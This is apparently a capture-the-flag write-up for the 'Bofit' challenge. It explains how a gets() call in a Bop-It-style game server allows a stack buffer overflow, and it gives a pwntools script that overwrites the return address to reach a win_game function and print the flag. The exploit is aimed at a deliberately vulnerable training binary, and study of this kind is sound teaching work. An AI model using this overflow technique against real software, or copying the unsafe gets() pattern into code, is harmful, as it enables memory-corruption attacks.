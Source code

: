 ## Bofit

### Challenge Description  
Because Bop It is copyrighted, apparently.  
`nc umbccd.io 4100`   

### Writeup
We are given a server and it's `C` code.  
In `main` function we are asked to enter character `B`. Then we enter to `play_game` function that runs the game. If ther server says `BOF it!` we have to answer with `B`, if says `Pull it!` we have to answer with `P`, if says `Twist it!` we have to answer with `T` and if it says `Shout it!` a `get` function will take input from user and if this input is less that 10 chars, it will break the loop and game will be finished.  
```c
int play_game(){
	char c;
	char input[20];
	int choice;
	bool correct = true;
	int score = 0;
	srand(time(0));
	while(correct){
		choice = rand() % 4;
		choice = 3;
		switch(choice){
			case 0:
				printf("BOF it!\n");
				c = getchar();
				if(c != 'B') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1:
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2:
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
		}
		score++;
	}
	return score;
}
```
So we can use this `get` function to overflow and rewrite return address of `play_game` function with address of `win_game` function that prints the flag.  
The address of `win_game` functio is `0x0000000000401256`. We have to insert 56 extra chars to reach return address.  
Finally we wrote script bellow to interact with the server. First time that `Shout it!` comes up, we enter `'A'*56 + pwn.p32(0x0000000000401256)` and second time we just enter something to break the loop. It gives us the flag.  
```python
from pwn import *
import pwn
import time

conn = remote('umbccd.io', '4100')
#conn = process('./bofit')
print(conn.recvuntil("BOF it to start!\n"))
conn.sendline("B")

counter = 0
while True:
	data = conn.recvline()
	if(data == ""):
		continue
	print(data)
	if(data[0] == "P"):
		conn.sendline("P")
	elif(data[0] == "B"):
		conn.sendline("B")
	elif(data[0] == "T"):
		conn.sendline("T")
	else:
		if(counter == 1):
			conn.sendline("A")
		conn.sendline('A'*56 + pwn.p32(0x0000000000401256))
		counter = counter + 1
```
Here is the flag:  
```
DawgCTF{n3w_h1gh_sc0r3!!}
```